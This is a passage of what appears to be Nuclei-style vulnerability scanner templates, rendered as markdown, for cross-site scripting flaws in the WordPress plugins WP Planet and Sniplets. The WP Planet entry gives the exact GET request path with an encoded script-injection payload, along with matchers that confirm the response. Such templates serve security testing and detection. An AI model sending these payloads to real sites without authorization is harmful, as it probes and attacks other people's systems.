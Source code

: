**Type - word**
- words
    1. '>\<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WP Planet \<= 0.1 - Cross-Site Scripting
## Description
- A cross-site scripting vulnerability in rss.class/scripts/magpie_debug.php in the WP-Planet plugin 0.1 and earlier for WordPress allows remote attackers to inject arbitrary web script or HTML via the url parameter.
- severity - medium
- tags - cve2014,wordpress,wp-plugin,xss,wpscan,cve,unauth
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/wp-planet/rss.class/scripts/magpie_debug.php?url=%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - word**
- words
    1. \<script>alert(document.domain)\</script>
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Sniplets \<=1.2.2 - Cross-Site Scripting
## Description
- WordPress Sniplets 1.1.2 and 1.2.2 plugin contains a cross-site scripting vulnerability which allows remote attackers to inject arbitrary web script or HTML via the text parameter to warning.php, notice.php, and inset.php in view/sniplets/, and possibly modules/execute.php; via the url parameter to view/admin/submenu.php; and via the page parameter to view/admin/pager.php.
